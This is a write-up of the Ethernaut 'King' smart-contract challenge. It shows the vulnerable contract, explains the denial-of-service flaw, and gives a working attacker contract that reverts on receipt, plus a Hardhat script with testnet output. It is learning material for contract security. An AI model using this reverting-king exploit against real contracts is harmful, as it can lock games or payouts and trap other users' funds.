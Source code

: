 ```yaml
---
title: Ethernaut #09 King
tags: [ethernaut]
style: border
color: primary
description: Ethernaut King challenge writeup
---
```


## King

### Challenge

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

Such a fun game. Your goal is to break it.

When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Background

This challenge confused me for a moment. I had a rough idea of re-entrancy attacks so I though this might be some type of a re-entrancy attack. I started checking what I could do if I control the transfer function, but looking at the next challenge name (`re-entrancy`) I thought that this is most likely not the type of attack I'm looking at. It is however a simpler version of it. The reason I was confused however, is that the challenge was not so clear to me. Usually we are after getting ownership of funds out of the contract, now I just needed to stay the king for ever.

So what is important to note here is that an smart contract can run code when funds are being transfered to it.

### Attack

In order to stay king, we just need to make sure that once we become king, nobody can execute the receive function without a revert. This can be simply achieved by making a contract we controll the king and force `revert`ing when someone transfers funds to the contract. If we needed to we could also have some logic to enable or disable this functionality but there is not need for this for the particular challange. Also keep in mind that a simple transfer does not have enough gas to pull this off, so a call with a value needs to be used when passing funds to the `King` contract. 

* Create a contract that can send funds to the `King` contract using `call` and reverts when receiving funds
* Send enought funds to the `King` contract to make the attacker contract king

#### KingSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

contract KingSolve {

    constructor() public {}
    
    function becomeKing (address payable _king) public payable {
        // _king.call.value(msg.value)("");
        _king.call{value: msg.value}("");
    }

    receive() external payable {
        revert();
    }
}
```

#### king-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    kingAddress = "0xaa0130693AbE4a6a478224F96747dD98Ba2c5740";
    contract = await ethers.getContractAt("King", kingAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    KingSolve = await ethers.getContractFactory("KingSolve");
    kingSolve = await KingSolve.deploy();
    await kingSolve.deployed();

    console.log("Level address: " + contract.address)
    console.log("Contract King: " + await contract._king())

    // get current price
    prize = await contract.prize()
    console.log("Current Prize: " + prize)

    // send funds buy calling selfdestruct
    tx = await kingSolve.connect(account).becomeKing(contract.address, { value: prize })
    receipt = await tx.wait()

    console.log("Contract King: " + await contract._king())
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/king-solve.js --network rinkeby
Level address: 0xaa0130693AbE4a6a478224F96747dD98Ba2c5740
Contract King: 0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5
Current Prize: 1000000000000000
Contract King: 0x868A70Ca70a8089b979051Efc3e7e649DB1bdC82
```

### Success Message

Most of Ethernaut's levels try to expose (in an oversimplified form of course) something that actually happened — a real hack or a real bug.

In this case, see: [King of the Ether](https://www.kingoftheether.com/thrones/kingoftheether/index.html) and [King of the Ether Postmortem](http://www.kingoftheether.com/postmortem.html).
